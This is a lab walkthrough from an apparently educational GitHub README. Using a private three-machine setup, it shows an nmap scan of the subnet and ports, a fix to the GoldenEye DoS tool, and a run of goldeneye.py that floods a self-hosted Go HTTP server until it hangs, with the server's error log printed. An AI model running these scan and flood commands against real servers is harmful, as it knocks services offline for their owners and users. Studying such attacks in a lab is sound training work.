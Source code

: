 # HackersDelight
A whitehats' playground

## DoS using Kali

In this experiment, we use 3 machines:  
1. Your laptop, running a Firefox web browser accessing our simple HTTP server.  
2. A VM running our simple HTTP server written in the Go programming language.  
3. A Kali VM as the machine attacking HTTP server.  

### Download Kali VM and DoS tool

Download and run [Kali VM](https://www.offensive-security.com/kali-linux-vm-vmware-virtualbox-image-download/)  

Login to the terminal shell of Kali VM, make your own working directory and `git clone https://github.com/jseidl/GoldenEye.git`  

Fix a [known issue](https://github.com/jseidl/GoldenEye/issues/27) in goldeneye.py, line 465:  
```python
#nrEncodings = random.randint(1,len(acceptEncoding)/2)
nrEncodings = random.randint(1, int(len(acceptEncoding)/2))
```

### HTTP Server - The victim

Get the IP of HTTP server vm:  
```sh
$ hostname -I
192.168.234.129
```

Go to the `httpserver` directory, do `chmod +x httpserver` of the binary is not executable.  
Then run the server.  
```sh
$ ./httpserver 
2020/06/29 00:18:02 HTTP Server
2020/06/29 00:18:02 The final redirect URL for gateway router will be: https://dzone.com/refcardz/getting-started-with-etherium-private-blockchain
2020/06/29 00:18:02 0.0.0.0:8288 up and listening
```

### Laptop Firefox browser
From your laptop, use Firefox to access the HTTP server, `http://192.168.234.129:8288/hello`

![httpserver demo](media/httpserver_hello.gif)

### Kali VM - The Attacker

Go back to Kali VM to plan, prepare and attack a victim.  

***Recce phase***  
*1. Where and what am I? (What is my IP?)*  
```sh
$ hostname -I
192.168.234.128
```

*2. Who are around? (Select the victim)*  
```sh
$ nmap 192.168.234.*
Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-26 05:34 EDT
Nmap scan report for 192.168.234.2
Host is up (0.00072s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE
53/tcp open  domain

Nmap scan report for 192.168.234.128
Host is up (0.00075s latency).
All 1000 scanned ports on 192.168.234.128 are closed

Nmap scan report for 192.168.234.129
Host is up (0.0011s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE
22/tcp open  ssh

Nmap done: 256 IP addresses (3 hosts up) scanned in 2.87 seconds
```

*3. What are ALL the open ports of victim?*
```sh
$ nmap -p- 192.168.234.129
Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-26 05:35 EDT
Nmap scan report for 192.168.234.129
Host is up (0.00048s latency).
Not shown: 65533 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
8288/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 3.56 seconds
```

***Attack phase***  
*4. Now start attacking the victim using `goldeneye`.*  
```sh
$ ./goldeneye.py http://192.168.234.129:8288 -w 50 -s 100 -d
GoldenEye v2.1 by Jan Seidl <jseidl@wroot.org>

Hitting webserver in mode 'get' with 50 workers running 100 connections each. Hit CTRL+C to cancel.
Starting 50 concurrent workers
Starting worker Striker-2
Starting worker Striker-3
Starting worker Striker-4
Starting worker Striker-5
Starting worker Striker-7
Starting worker Striker-8
Starting worker Striker-6
Starting worker Striker-9
...
Starting worker Striker-41
Starting worker Striker-42
Starting worker Striker-45
Initiating monitor
Starting worker Striker-44
Starting worker Striker-46
Starting worker Striker-47
Starting worker Striker-48
Starting worker Striker-51
Starting worker Striker-50
Starting worker Striker-49
```
*5. The HTTP server starts to display errors.*  
```sh
$ ./httpserver 
2020/06/29 00:18:02 HTTP Server
2020/06/29 00:18:02 The final redirect URL for gateway router will be: https://dzone.com/refcardz/getting-started-with-etherium-private-blockchain
2020/06/29 00:18:02 0.0.0.0:8288 up and listening
2020/06/29 00:43:33 GET /hello HTTP/1.1
2020/06/29 00:43:33 Header["Accept-Language"] = ["en-US,en;q=0.5"]
2020/06/29 00:43:33 Header["Connection"] = ["keep-alive"]
2020/06/29 00:43:33 Header["Upgrade-Insecure-Requests"] = ["1"]
2020/06/29 00:43:33 Header["Accept"] = ["text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8"]
2020/06/29 00:43:33 Header["Dnt"] = ["1"]
2020/06/29 00:43:33 Header["Cache-Control"] = ["max-age=0"]
2020/06/29 00:43:33 Header["User-Agent"] = ["Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:77.0) Gecko/20100101 Firefox/77.0"]
2020/06/29 00:43:33 Header["Accept-Encoding"] = ["gzip, deflate"]
2020/06/29 00:43:33 Host = "192.168.234.129:8288"
2020/06/29 00:43:33 RemoteAddr = "192.168.234.1:58641"
2020/06/29 00:43:49 http: Accept error: accept tcp [::]:8288: accept4: too many open files; retrying in 5ms
2020/06/29 00:43:49 http: Accept error: accept tcp [::]:8288: accept4: too many open files; retrying in 10ms
2020/06/29 00:43:49 http: Accept error: accept tcp [::]:8288: accept4: too many open files; retrying in 20ms
2020/06/29 00:43:49 http: Accept error: accept tcp [::]:8288: accept4: too many open files; retrying in 40ms
2020/06/29 00:43:49 http: Accept error: accept tcp [::]:8288: accept4: too many open files; retrying in 80ms
2020/06/29 00:43:49 http: Accept error: accept tcp [::]:8288: accept4: too many open files; retrying in 160ms
2020/06/29 00:43:49 http: Accept error: accept tcp [::]:8288: accept4: too many open files; retrying in 320ms
2020/06/29 00:43:49 http: Accept error: accept tcp [::]:8288: accept4: too many open files; retrying in 640ms
2020/06/29 00:43:50 http: Accept error: accept tcp [::]:8288: accept4: too many open files; retrying in 1s
2020/06/29 00:43:51 http: Accept error: accept tcp [::]:8288: accept4: too many open files; retrying in 1s
2020/06/29 00:43:52 http: Accept error: accept tcp [::]:8288: accept4: too many open files; retrying in 1s
2020/06/29 00:43:53 http: Accept error: accept tcp [::]:8288: accept4: too many open files; retrying in 1s
2020/06/29 00:43:54 http: Accept error: accept tcp [::]:8288: accept4: too many open files; retrying in 1s
2020/06/29 00:43:55 http: Accept error: accept tcp [::]:8288: accept4: too many open files; retrying in 1s
...
```

*6. From your laptop, use Firefox to re-access the HTTP server, `http://192.168.234.129:8288/hello`, it waits and hangs.*  

![httpserver timeout](media/httpserver_timeout.JPG)

